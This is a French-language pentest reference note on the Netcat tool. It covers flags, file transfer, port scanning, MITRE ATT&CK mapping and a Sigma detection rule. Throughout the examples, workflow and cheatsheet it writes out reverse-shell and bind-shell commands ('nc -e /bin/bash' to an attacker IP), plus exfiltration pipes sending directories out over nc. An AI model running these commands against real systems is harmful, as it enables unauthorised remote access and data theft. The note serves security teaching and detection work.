


# 🔌 Netcat — Le couteau suisse TCP/IP

> [!info] **En 1 phrase**
> Netcat (`nc`) est l'outil de référence pour toute opération TCP/UDP en ligne de commande : connexions, écoute, transferts de fichiers, scans et surtout shells inversés.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Netcat (`nc`) ; variantes : netcat-traditional, netcat-openbsd, GNU netcat |
| Description | Utilitaire réseau permettant d'ouvrir/écouter des connexions TCP ou UDP, transférer des données, scanner des ports et exécuter des programmes via une connexion |
| Catégorie | Divers |
| Sous-catégorie | Outil réseau polyvalent (socket crue) |
| Fonction principale | Établir une connexion TCP/UDP bidirectionnelle entre deux machines, en client ou en serveur |
| Type d'outil | CLI |
| Licence | BSD-3-Clause (netcat-openbsd) ; GPL-2.0 (netcat-traditional) |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C |
| Développeur / organisation | *hobbit* (original, 1995) ; Giovanni Giacobbi (rewrite OpenBSD, 2002) |
| Projet officiel | nc (OpenBSD) ; nc110 (SourceForge) ; paquets Debian netcat-openbsd / netcat-traditional |
| Dépôt officiel | https://www.openbsd.org/ ; https://salsa.debian.org/debian/netcat-openbsd |
| Documentation officielle | man page `nc(1)` : https://linux.die.net/man/1/nc |
| Date de création | 1995 |
| État du projet | maintenu (OpenBSD), variantes stables et packagées partout |
| Dernière version connue | netcat-openbsd 1.225-1 (Debian) ; netcat-traditional 1.10 |
| Systèmes compatibles | Linux, BSD, macOS, Windows (exécutable nc, WSL, Cygwin) |

> [!note] Pour vérifier / compléter
> La version installée dépend de la distribution : `nc -h` (netcat-openbsd) vs `netcat-traditional -h` sur Debian/Ubuntu. Sur Kali, `nc` pointe généralement vers netcat-openbsd, qui n'implémente **pas** `-e` par défaut (compilé sans) ; `ncat` (Nmap) ou netcat-traditional sont alors utilisés pour les shells avec exécution.

---

## 🎯 Concept

Netcat fournit une **socket TCP/UDP brute** accessible en ligne de commande : on lui donne une cible et un port (mode client) ou on lui demande d'écouter (mode serveur). Tout ce qui arrive sur la connexion est redirigé vers stdout, et tout ce qui est tapé sur stdin part dans la connexion. Cette bidirectionnalité « stdin ↔ socket » en fait la brique de base de la plupart des post-exploitations : un shell, un fichier ou un flux est « branché » sur la socket.

Sa force : la **composition avec les outils Unix** (`|`, `<`, `>`). On envoie un fichier (`nc … < fichier`), on reçoit un log (`nc -l … > log`), on branche un shell (`nc -e /bin/sh`), on transforme le tout en pipe pour le triturer (`mknod` + `cat` pour du port forwarding). C'est l'outil le plus simple qui soit pour **créer un canal bidirectionnel en quelques secondes** — d'où son omniprésence en pentest pour les shells inversés et le transfert de fichiers.

En cybersécurité offensive, netcat est l'**outil de fallback** par excellence : présent sur presque tous les systèmes (Unix), sans dépendance, rapide. Détection classique, malgré tout : un shell écoutant sur un port exotique ou une connexion sortante vers une IP inconnue.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Socket brute | Connexion TCP ou UDP sans couche applicative : les octets vont directement de stdin à la socket et vice-versa |
| Mode client | `nc <hôte> <port>` : l'outil initie la connexion |
| Mode serveur / écoute | `nc -l -p <port>` : l'outil écoute et accepte une connexion entrante |
| Shell inversé (reverse shell) | La victime se connecte vers l'attaquant et redirige un shell sur la socket : `nc -e /bin/sh <ip> <port>` |
| Bind shell | L'attaquant se connecte vers un shell écoutant sur la victime : `nc -l -p 4444 -e /bin/sh` |
| Transfert de fichiers | Redirection `>`/`<` : un côté écrit dans un fichier, l'autre le lit depuis un fichier |
| Scan de ports | Mode `-z` (zéro I/O) : ouvre la connexion puis l'abandonne, `-v` rapporte ouvert/fermé |
| Banner grabbing | Lire la bannière envoyée par un service au moment de la connexion (SSH, HTTP, SMTP…) |
| stdin/stdout | Le cœur du modèle : `echo | nc …` envoie, `nc -l > f` reçoit, `|` chaîne les outils |
| Timeout | `-w <sec>` : délai d'inactivité ou de connexion ; essentiel pour les scans et scripts |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
# netcat-openbsd (recommandé, plus sûr : pas de -e par défaut)
sudo apt install -y netcat-openbsd

# netcat-traditional (fournit l'option -e)
sudo apt install -y netcat-traditional
# Choisir la variante par défaut via update-alternatives
sudo update-alternatives --config nc
```

### Arch Linux

```bash
sudo pacman -S openbsd-netcat
```

### Fedora / RHEL

```bash
sudo dnf install -y nmap-ncat   # nc = ncat (Nmap)
# ou
sudo dnf install -y nc           # netcat traditionnel
```

### macOS

```bash
# nc (BSD) est présent par défaut sur macOS
nc -h
```

### Windows

```powershell
# WSL / Cygwin, ou exécutable netcat (nc.exe) pour cmd
# Vérifier le binaire avant usage : provenance douteuse = risque
where nc
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - **`-e` absent** sur netcat-openbsd (compilé sans `GAPING_SECURITY_HOLE`) : utiliser `ncat --exec` ou netcat-traditional pour les shells.
> - Télécharger un binaire netcat depuis un site non officiel est un **risque** (trojan courant) : compiler ou utiliser le paquet officiel.
> - L'écoute sur port < 1024 requiert root.
> - Windows sans WSL : pas de netcat natif officiel.

---

## ⚙️ Configuration

Netcat n'a pas de fichier de configuration : tout se passe en arguments. Les comportements clés à connaître pour l'automatiser.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-l` | Mode écoute (serveur) | — | Attend une connexion entrante | `nc -l -p 4444` |
| `-p <port>` | Port local | 1-65535 | Port d'écoute ou de connexion | `nc -lvnp 4444` |
| `-e <prog>` | Exécuter un programme (traditional) | `/bin/sh`, `/bin/bash`… | Redirige stdin/stdout du programme sur la socket | `nc -l -p 4444 -e /bin/bash` |
| `-v` / `-vv` | Verbeux | — | Rapporte l'état des connexions | `nc -zv 10.10.20.15 1-100` |
| `-z` | Zéro I/O (scan) | — | Envoie une connexion sans données | `nc -z -v 10.10.20.15 22` |
| `-w <sec>` | Timeout | secondes | Temps d'inactivité/connexion avant abandon | `nc -w 3 host 80` |
| `-n` | Pas de résolution DNS | — | Accélère et évite les requêtes DNS | `nc -vn host 80` |
| `-q <sec>` | Quitter après EOF | secondes | Fermeture propre en fin de transfert | `nc -q 0 host 4444 < f` |
| `-u` | Mode UDP | — | Utilise UDP au lieu de TCP | `nc -u -l -p 53` |
| `-s <ip>` | Adresse source | IP | Force l'adresse source de la connexion | `nc -s 10.10.20.15 host 80` |
| `-k` | Continuer d'écouter | — | Accepte plusieurs connexions successives | `nc -lk -p 4444` |

---

## 🏗️ Architecture interne

Netcat est volontairement minimaliste : un binaire, aucune dépendance, un modèle « pipe » universel. Sa logique se décompose en quelques étapes :

- **Résolution** : la cible (hôte + port) est résolue en adresse (`-n` désactive la résolution de noms).
- **Création de socket** : socket TCP (défaut) ou UDP (`-u`), avec possibilité de forcer l'adresse source (`-s`).
- **Connexion ou écoute** : en client, `connect()` vers la cible ; en écoute, `bind()` + `listen()` + `accept()` sur le port (`-l`, `-p`), avec option de persistance (`-k`).
- **Boucle d'E/S** : lecture depuis la socket → écriture sur stdout ; lecture depuis stdin → écriture sur la socket. C'est ce flux bidirectionnel qui rend l'outil générique.
- **Exécution (si `-e`)** : `fork()` + `dup2()` sur les descripteurs de la socket → stdin/stdout/stderr du programme branchés sur le réseau.
- **Fermeture** : `-q <sec>` attend l'EOF puis ferme la socket proprement ; `-w` impose un timeout global.



---

## ⌨️ Commandes

### Commandes principales

```bash
nc [options] <hôte> <port>
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `nc -lvnp 4444` | Écouter sur le port 4444 | Attend une connexion entrante |
| `nc -e /bin/sh 10.10.20.15 4444` | Shell inversé (traditional) | La victime se connecte, l'attaquant a un shell |
| `nc -l -p 4444 -e /bin/bash` | Bind shell | L'attaquant se connecte et obtient un shell |
| `nc -zv 10.10.20.15 1-1000` | Scan de ports | Ports ouverts/fermés rapportés par `-v` |
| `nc -lvp 4444 < secret.txt` | Envoyer un fichier (serveur) | Le fichier est émis à la connexion |
| `nc 10.10.20.15 4444 > recu.txt` | Recevoir un fichier (client) | Le fichier reçu est écrit sur le disque |

### Commandes avancées

```bash
# Transfert de fichier avec progression via pv
tar czf - /etc | nc -l -p 4444
nc 10.10.20.15 4444 | pv | tar xzf -

# Port forwarding : pipe entre deux sockets (via mknod)
mknod pipe p
nc -l -p 4444 0<pipe | nc 10.10.20.15 80 1>pipe

# Conversation « chat » entre deux machines
nc -l -p 4444                 # hôte 1
nc 10.10.20.15 4444           # hôte 2

# Scan UDP rapide (attention aux faux positifs)
nc -uzv 10.10.20.15 1-1024
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-l` | Mode écoute | `nc -l -p 4444` | Basic |
| `-p <port>` | Port local | `nc -lp 4444` | Basic |
| `-v` / `-vv` | Verbeux | `nc -zv h 80` | Basic |
| `-n` | Pas de résolution DNS | `nc -vn h 80` | Basic |
| `-w <sec>` | Timeout | `nc -w 3 h 80` | Basic |
| `-z` | Zéro I/O (scan) | `nc -zv h 1-100` | Intermediate |
| `-e <prog>` | Exécuter un programme (traditional) | `nc -e /bin/sh h 4444` | Intermediate |
| `-u` | UDP | `nc -u -l -p 53` | Intermediate |
| `-q <sec>` | Quitter après EOF | `nc -q 0 h 4444 < f` | Intermediate |
| `-k` | Continuer d'écouter | `nc -lk -p 4444` | Advanced |
| `-s <ip>` | Adresse source | `nc -s 10.10.20.15 h 80` | Advanced |
| `-G <sec>` | Délai de connexion | `nc -G 5 h 80` | Expert |

> [!tip] Options les plus utiles au quotidien
> `-lvnp <port>` (écoute + verbeux + pas de DNS + port), `-e` (exécution, si compilé), `-zv` (scan), `-w` (timeout pour script), `-q 0` (fermeture propre des transferts). En revanche `-e` fait défaut sur netcat-openbsd.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Se connecter à un port et voir ce qui arrive
nc -vn example.com 80

# Écouter un port et afficher ce qui s'y connecte
nc -lvnp 4444
```

### Intermediate

```bash
# Shell inversé (netcat-traditional / ncat)
nc -e /bin/bash 10.10.20.15 4444

# Écouteur pour le recevoir
nc -lvnp 4444

# Transfert de fichier simple
# machine A (récepteur) :
nc -lvp 4444 > backup.tar
# machine B (émetteur) :
nc 10.10.20.15 4444 < backup.tar
```

### Advanced

```bash
# Scan de ports avec timeout et verbosité
nc -zvw 3 10.10.20.15 1-1000

# Exfiltrer un fichier compressé via un pipe
tar czf - /var/log | nc -l -p 4444

# Port forwarding sans -e : deux connexions chaînées
mknod p; nc -l -p 4444 0<p | nc 10.10.20.15 80 1>p
```

### Expert

```bash
# Boucle : re-écouter après chaque connexion (multi-sessions)
while true; do nc -l -p 4444; done
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Étape 1 — Écouter côté attaquant** — ouvrir le récepteur :
   ```bash
   nc -lvnp 4444
   ```
2. **Étape 2 — Obtenir le shell côté victime** — se connecter vers l'attaquant :
   ```bash
   nc -e /bin/bash 10.10.20.15 4444
   ```
3. **Étape 3 — Interagir puis stabiliser** — exécuter des commandes, obtenir un TTY :
   ```bash
   whoami; id; uname -a
   python3 -c 'import pty; pty.spawn("/bin/bash")'   # stabilisation TTY
   ```

---

## 🎬 Scénarios avancés

### Scénario 1 : reverse shell fiabilisé (traditionnel)

```bash
# Attaquant
nc -lvnp 4444
# Victime
nc -e /bin/bash 10.10.20.15 4444
```

### Scénario 2 : transfert de dossier entier compressé

```bash
# Récepteur
nc -lvp 4444 | tar xzf -
# Émetteur
tar czf - /var/www | nc 10.10.20.15 4444
```

### Scénario 3 : relais / port forwarding avec fifo

```bash
mkfifo /tmp/f   # rediriger le port 4444 vers le port 80 de la cible
nc -l -p 4444 < /tmp/f | nc 10.10.20.15 80 > /tmp/f
```

### Scénario 4 : récolte de bannières en masse

```bash
# Banners SSH/HTTP d'une plage d'hôtes
for ip in $(seq 1 254); do
  nc -zvw 2 10.10.20.$ip 22 2>&1 | grep -i open
done
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Scan de ports, banner grabbing, détection de services |
| Exploitation | Canaux bruts pour payloads, validation de ports sortants |
| Post-exploitation | Shells inversés/binds, transferts de fichiers, pivots |
| Exfiltration | Transfert de données sur des canaux alternatifs (T1048) |
| C2 | Communication sur ports non standards (T1571) |
| Défense | Test de règles pare-feu, validation de détection |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Discovery | Network Service Discovery | T1046 | Scan de ports avec `nc -z` | Netflow, corrélation de connexions | Segmentation, filtrage entrant |
| Command and Control | Non-Application Layer Protocol | T1095 | Communication brute TCP/UDP sans protocole applicatif | Analyse de flux, déviation | Egress control, proxy |
| Command and Control | Non-Standard Port | T1571 | Utilisation de ports inhabituels (ex. 4444) | Détection de ports exotiques sortants | Politique de ports, pare-feu |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 | Transfert de données via netcat hors canaux standard | Volumes sortants, DLP | Proxy, politique egress |
| Execution | Command and Scripting Interpreter | T1059 | Exécution de shell via `-e` | Process_creation, EDR, Sigma | Whitelisting, durcissement |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> netcat est un couteau suisse : les ID ci-dessus ne sont pertinents que selon l'usage (scan, shell, transfert). Son trafic n'a pas de signature applicative — d'où la difficulté de détection intrinsèque.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Process `nc` / `netcat` avec arguments suspects (`-e`, `-l -p`) | EDR, Sigma, surveillance process |
| Connexions sortantes vers des ports non standards | Analyse des flux, exclusions SIEM |
| Ports en écoute inattendus (`nc -l`) | `netstat -tlnp`, `ss -tlnp`, scans internes |
| Binaires netcat non signés déposés sur disque | YARA, intégrité des fichiers, AV |
| Shells inversés (connexions avec stdin/stdout d'un shell) | Détection réseau de sessions interactives, UEBA |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Linux : netcat utilisé avec -e ou en écoute
title: Netcat Reverse Shell or Listener
id: 3d8f6a1b-7c2e-4a9d-b5f1-9e0d1c2b3a4f
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/nc'
            - '/netcat'
            - '/ncat'
    filter_listen:
        CommandLine|contains: '-l'
    filter_exec:
        CommandLine|contains: '-e'
    condition: selection and (filter_listen or filter_exec)
falsepositives:
    - Legitimate admin or lab use
level: medium
```

> [!note] À vérifier
> Les faux positifs sont nombreux (administration légitime). Ces règles signalent une **activité suspecte**, pas une preuve : croiser avec l'historique de connexions et les comptes utilisés.

---

## 🤖 Automatisation

```bash
# Bash — scan de ports d'une cible et rapport
for p in $(seq 1 1000); do
  nc -zvw 1 10.10.20.15 $p 2>&1 | grep -E "open"
done > ports_ouverts.txt

# Bash — collecter les banners de services courants
for p in 21 22 25 80 443; do
  echo "== port $p =="
  (echo; sleep 1) | nc -w 2 10.10.20.15 $p
done
```

```python
# Python — générer une liste de connexions netcat (échantillon de détection)
import subprocess
for port in [22, 80, 443, 4444]:
    subprocess.run(["nc", "-zvw", "1", "10.10.20.15", str(port)], check=False)
```

---

## 📤 Output et parsing

netcat est minimaliste : ses seules sorties structurées sont les messages de `-v` (connexions ouvertes/fermées) écrits sur **stderr**, et les données brutes échangées sur stdout.

```bash
# Messages typiques d'un scan -zv
nc -zv 10.10.20.15 22-25
# Connection to 10.10.20.15 port 22 [tcp/ssh] succeeded!
# Connection to 10.10.20.15 port 23 [tcp/telnet] timed out

# Filtrer uniquement les ports ouverts
nc -zvw 1 10.10.20.15 1-1000 2>&1 | grep succeeded
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - Ncat]] — la version Nmap : `--ssl`, `--proxy`, `--exec`, plus complète que `nc`
- [[Outil - socat]] — l'évolution « suisse armée » : SSL, UNIX sockets, relais avancés
- [[Outil - Nmap]] — le scan de ports moderne ; netcat pour la vérification manuelle
- [[Outil - tcpdump]] / [[Outil - tshark]] — valider le trafic netcat généré
- [[Outil - Metasploit]] — les payloads utilisent souvent netcat pour le transfert initial

```text
nc -e /bin/sh <ip> <port>  →  shell sur socket
tar czf - <dir> | nc <ip> <port>  →  transfert compressé
nc -l -p <port> < fifo | nc <cible> <port> > fifo  →  port forwarding
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Ncat (Nmap) | TLS, proxy, --exec, persistance, bataille HTTP | Plus lourd, moins universel | Remplacement moderne |
| Bash `/dev/tcp` | Pas de binaire externe | Limité, lent | Fallback sans outil |
| PowerShell (`Test-NetConnection`) | Natif Windows | Orienté tests, pas de flux brut | Windows sans netcat |

> **Quand utiliser netcat plutôt que Ncat/socat ?** Pour la simplicité et l'universalité : une seule ligne, aucune dépendance. Dès qu'il faut TLS, du proxy ou un relais robuste, basculer sur [[Outil - Ncat|Ncat]] ou [[Outil - socat|socat]].

---

## ⚡ Performance

- **Léger** : un seul binaire, aucune dépendance, démarrage instantané.
- **Scan** : `-z` sans `-w` attend le timeout du noyau par port — toujours préciser `-w 1` pour accélérer.
- **Transferts** : le débit est borné par le réseau et par les pipes Unix ; pour des volumes importants, compresser (`tar czf -`) ou utiliser des outils dédiés.
- **Limites** : pas de chiffrement, pas de reprise de transfert, pas de multiplexage — netcat est un canal brut.

> [!note] À vérifier
> Les performances dépendent du noyau, de la socket et du réseau ; pour du haut débit, préférer des outils spécialisés (rsync, HTTP, etc.).

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « nc: invalid option -- 'e' »

- **Cause** : netcat-openbsd compilé sans `-e` (par sécurité).
- **Solution** : `ncat --exec /bin/bash`, ou installer netcat-traditional (`update-alternatives`).
- **Vérification** : `nc -h` affiche les options supportées.

#### Problème : la connexion est rejetée / « connection refused »

- **Cause** : service fermé, pare-feu, ou mauvaise adresse.
- **Solution** : vérifier le port (`-zv`), le pare-feu (`iptables`, UFW), la reachabilité (`ping`).
- **Vérification** : `nc -zvw 3 10.10.20.15 4444`.

#### Problème : le shell se ferme immédiatement après connexion

- **Cause** : le shell n'a pas de TTY ; stdin fermé tue la session.
- **Solution** : stabiliser avec `python3 -c 'import pty;pty.spawn("/bin/bash")'` ou `script /dev/null -c bash`.
- **Vérification** : `whoami` après stabilisation.

#### Problème : rien ne passe malgré une connexion « réussie »

- **Cause** : mode UDP (`-u`) filtré, ou une interface source erronée.
- **Solution** : `-s` pour forcer la source, `tcpdump` pour observer les datagrammes.
- **Vérification** : `sudo tcpdump -i eth0 udp port 4444`.

---

## 🔐 Sécurité de l'outil

- **Chiffrement** : aucun — tout le trafic est en clair. Ne transporter que des données non sensibles ou tunneler le flux.
- **Binaires** : les netcat « piratés » distribués en ligne sont une méthode d'infection courante — compiler ou installer depuis les dépôts.
- **`-e`** : permet l'exécution arbitraire ; sur un serveur compromis, c'est l'outil rêvé d'un attaquant.
- **Écoute** : un listener netcat exposé sur Internet est une porte ouverte (bind shell).
- **Traces** : les connexions sortantes et les processus `nc` sont visibles (netstat, logs) — netcat n'efface rien.
- **Autorisations** : l'usage offensif sans autorisation est illégal ; documenter chaque opération.

---

## ⚠️ Limitations

- Pas de chiffrement natif (ni TLS, ni SSH).
- `-e` indisponible sur netcat-openbsd ; dépendance à la variante installée.
- Pas de reprise de transfert ni de résilience (un changement de réseau casse la session).
- Un seul canal par processus (pas de multiplexage).
- Le scan `-z` est lent sans timeout explicite.
- Aucune gestion de l'authentification : tout est « à nu ».

---

## 📋 Cheatsheet

```bash
# Écoute
nc -lvnp 4444

# Shell inversé (si -e disponible)
nc -e /bin/bash 10.10.20.15 4444

# Bind shell
nc -l -p 4444 -e /bin/bash

# Scan
nc -zvw 2 10.10.20.15 1-1000

# Transfert (réception puis émission)
nc -lvp 4444 > fichier
nc -w 3 10.10.20.15 4444 < fichier

# Banner grabbing
printf 'HEAD / HTTP/1.0\r\n\r\n' | nc -w 2 example.com 80

# UDP
nc -u -l -p 53
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Ouvrir/écouter des connexions TCP/UDP brutes : shells, transferts, scans, bannières |
| **Quand l'utiliser ?** | Toute opération réseau rapide, fallback universel, post-exploitation |
| **Commande principale** | `nc -lvnp 4444` (écoute) ; `nc -e /bin/sh <ip> 4444` (reverse shell) |
| **Alternative principale** | [[Outil - Ncat\|Ncat]], [[Outil - socat\|socat]], Bash `/dev/tcp` |
| **Concepts importants** | mode client/écoute, `-e`, `-z`, stdin/stdout bidirectionnel, transferts |
| **Liens associés** | [[Outil - Ncat]] · [[Outil - socat]] · [[Outil - Nmap]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Process `nc`/`netcat` avec `-e` ou `-l` | EDR + Sigma, whitelisting, logs d'exécution |
| Connexions sortantes vers ports exotiques | Analyse de flux, egress control |
| Ports en écoute non répertoriés | `ss -tlnp`, scans internes réguliers |
| Binaires netcat non signés déposés | YARA, AV, intégrité des fichiers |
| Sessions interactives anormales | UEBA, revue des accès administrateurs |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Toujours ajouter `-w` dans les scans/scripts pour éviter les blocages.
> - Pour un transfert fiable, fermer avec `-q 0` côté émetteur.
> - Stabiliser le shell inversé (pty) avant d'utiliser des outils interactifs comme `vim` ou `su`.
> - Utiliser `-n` pour accélérer et éviter de polluer le DNS de la victime.
> - Vérifier la variante installée (`nc -h`) avant d'écrire un script dépendant de `-e`.

> [!warning] ⚠️ **Pièges**
> - `-e` absent sur netcat-openbsd : ne pas supposer son support.
> - Un shell inversé sans TTY est fragile : il casse à la moindre erreur d'E/S.
> - Le trafic netcat est en clair : un intermédiaire peut lire les données (et les credentials).
> - Exposer un bind shell netcat sur Internet = prise de contrôle immédiate.
> - Les binaires netcat « gratuits » en ligne sont une porte d'entrée fréquente.

---

## 📚 References

### Official

- Man page nc (OpenBSD) : https://man.openbsd.org/nc
- Man page nc (Linux die.net) : https://linux.die.net/man/1/nc
- Netcat 1.10 (SourceForge) : https://nc110.sourceforge.io/
- Paquet Debian netcat-openbsd : https://packages.debian.org/netcat-openbsd

### Security references

- MITRE ATT&CK T1046 — Network Service Discovery : https://attack.mitre.org/techniques/T1046/
- MITRE ATT&CK T1095 — Non-Application Layer Protocol : https://attack.mitre.org/techniques/T1095/
- MITRE ATT&CK T1571 — Non-Standard Port : https://attack.mitre.org/techniques/T1571/
- MITRE ATT&CK T1048 — Exfiltration Over Alternative Protocol : https://attack.mitre.org/techniques/T1048/

### Community

- Reverse Shell Cheat Sheet : https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet/
- HackTricks — shells inversés : https://book.hacktricks.xyz/shells/shells

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - Ncat|Ncat]] · [[Outil - socat|socat]] · [[Outil - Nmap|Nmap]] · [[Outil - Metasploit|Metasploit]]
